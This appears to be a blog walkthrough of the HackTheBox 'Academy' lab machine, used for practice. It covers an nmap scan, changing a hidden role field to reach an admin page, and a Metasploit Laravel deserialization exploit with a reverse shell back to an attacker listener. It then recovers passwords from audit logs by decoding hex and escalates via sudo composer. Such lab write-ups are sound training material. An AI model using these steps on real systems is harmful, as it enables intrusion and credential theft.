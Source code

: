 ```yaml
---
layout: post
title: HackTheBox - Academy
date: 2021-03-03 19:44:17 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Laravel, metasploit, CVE-2018-15133, CVE-2017-16894, reverse-shell, plain text password, Linux logging passwords, composer, GTFOBins, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/academy/Academy.png
---
```


## Foothold

### Nmap Scan (open Ports)

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -oA Academy 10.10.10.215
Nmap scan report for 10.10.10.215
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

### Apache httpd (port 80)

![Port 80](/assets/img/htb/machines/linux/easy/academy/80.png)

Once we go to [http://10.10.10.215](http://10.10.10.215), we can see two links:

- [http://10.10.10.215/login.php](http://10.10.10.215/login.php)
- [http://10.10.10.215/register.php](http://10.10.10.215/register.php)

If we check the source-code of the register page, we can notice there is an input which is **hidden**:

![Role id](/assets/img/htb/machines/linux/easy/academy/roleid.png)

If we set its value to 1, we can access to: [http://10.10.10.215/admin-page.php](http://10.10.10.215/admin-page.php)

Once we're logged in, we can see there is a sub-domain whcih is mentionned `dev-staging-01.academy.htb`:

![admin-page](/assets/img/htb/machines/linux/easy/academy/admin-page.png)

We add these domains into our `/etc/hosts`:

![/etc/hosts](/assets/img/htb/machines/linux/easy/academy/etc-hosts.png)

Then we access to the subdomain:

![subdomain](/assets/img/htb/machines/linux/easy/academy/subdomain.png)

It seems to be a **Laravel** backend:

![laravel](/assets/img/htb/machines/linux/easy/academy/laravel.png)

We can notice there are some sensible information like:

![APP_KEY](/assets/img/htb/machines/linux/easy/academy/APP_KEY.png)


Using **metasploit**, we can gain a reverse shell to web server:

![msf](/assets/img/htb/machines/linux/easy/academy/msf.png)

{% highlight bash %}
msf6 > use exploit/unix/http/laravel_token_unserialize_exec
[*] Using configured payload cmd/unix/reverse_perl
# Setting options
msf6 exploit(unix/http/laravel_token_unserialize_exec) > show options
...
   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.215                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.11      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
{% endhighlight %}

![reverse_shell](/assets/img/htb/machines/linux/easy/academy/reverse_shell.png)

## User1: `cry0l1t3`

In the `/home` directory, we can see there are a bunch of users. One one them has a `user.txt` file: 

![cry0l1t3](/assets/img/htb/machines/linux/easy/academy/cry0l1t3.png)

By doing some recursive research through files upon files we find this password: 

![password](/assets/img/htb/machines/linux/easy/academy/dev_password.png)

It appears that it's the password of **cry0l1t3** user.

{% highlight bash %}
cry0l1t3@academy:/home/cry0l1t3:~$ cat user.txt
064f918982d32d8040efb7c1b66a486
{% endhighlight %}

## User2: `mrb3n`

**cry0l1t3** is part of the **adm** group.

Via `find` we can list all files that are owned by this group:

`find / -group adm -exec ls -la {} \; 2>/dev/null`

Most of them are in `/var/log`.

After reading about [linux var log files](https://www.thegeekstuff.com/2011/08/linux-var-log-files/), I found this article "[Logging passwords on Linux](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)". Before continuing, I highly recommend that you read this article.

In `/var/log/audit/` directory, we can retrieve `mrb3n`'s password:

{% highlight bash %}
cry0l1t3@academy:/var/log/audit$ grep "data=" *  
audit.log.3:type=TTY msg=audit(1597199290.086:83): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=7375206D7262336E0A
audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
...
cry0l1t3@academy:/var/log/audit$ echo 7375206D7262336E0A | xxd -r -p
su mrb3n
cry0l1t3@academy:/var/log/audit$ echo 6D7262336E5F41634064336D79210A | xxd -r -p
mrb3n_Ac@d3my!
{% endhighlight %}

## Root

Now that we have access to `mrb3n` account, let's do some enumeration and see what we can do with `sudo`:

![mrb3n](/assets/img/htb/machines/linux/easy/academy/mrb3n.png)

`composer` is listed in [GTFOBins](https://gtfobins.github.io/gtfobins/composer/):

![gtfobins](/assets/img/htb/machines/linux/easy/academy/gtfobins.png)

To perform a privesc, we can exploit it and then become `root`:

![root](/assets/img/htb/machines/linux/easy/academy/root.png)

___

## Useful links

- [Linux var log files](https://www.thegeekstuff.com/2011/08/linux-var-log-files/)
- [Logging Passwords on Linux - `/var/log/audit/audit.log`](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)